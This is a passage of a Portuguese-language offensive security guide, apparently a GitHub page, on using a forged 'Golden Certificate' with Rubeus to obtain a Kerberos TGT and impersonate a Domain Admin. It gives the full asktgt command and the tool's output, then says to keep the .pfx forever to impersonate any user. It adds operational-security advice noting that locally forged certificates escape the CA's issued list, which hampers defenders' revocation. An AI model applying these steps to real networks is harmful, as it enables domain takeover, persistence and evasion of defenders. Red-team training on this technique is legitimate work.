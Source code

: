 Agora vamos utilizar o Rubeus para pedir um ticket TGT e personificar o Domain Admin

```powershell
.\Rubeus.exe asktgt /user:paulo.victor /domain:corp.local /dc:corp-dc.corp.local /certificate:"C:\Tools\paulo-da.pfx" /password:"Senha" /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.1

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: DC=LOCAL, DC=CORP, OU=Tier0, OU=Usuarios, CN=paulo.victor
[*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\paulo.victor'
[*] Using domain controller: 10.0.0.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGVjCCBlKgAwIBBaEDAgEWooIFbTCCBWlhg...

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/corp.local
  ServiceRealm             :  CORP.LOCAL
  UserName                 :  paulo.victor
  UserRealm                :  CORP.LOCAL
  StartTime                :  1/11/2025 2:37:29 AM
  EndTime                  :  1/11/2025 12:37:29 PM
  RenewTill                :  1/18/2025 2:37:29 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  c5brmZK4ioq20251NDOs8w==
  ASREP (key)              :  667FB15683B166E0330E8D3DFE38620E
```

Pronto, agora somos Domain Admin do ambiente!!!. Basta com que você guarde esse .pfx com você para sempre, e sempre irá conseguir emitir um certificado no nome de qualquer usuario e personifica-lo no ambiente.

<br>

- <span style="color: red;">OPSEC NOTES</span>: Ao gerar certificados com Certipy/fy eles ficarão salvos em "**Issued Certificates**" no **certsrv** dentro da CA, oque dá a possibilidade dos defensores revogarem o seu certificado, oque é um problema. Porém ao utilizar Golden Cerficate você estará gerando os certificados localmente e eles não ficaram salvos dentro do **certsrv**, oque dificultara e MUITO a vida do defensor em revogar o seu certificado 🔥🧑‍🚒.
- Eu tirei essa captura de tela abaixo, após reproduzir os passos acima e como podemos ver, o certificado que eu emiti não está visivel dentro da CA.

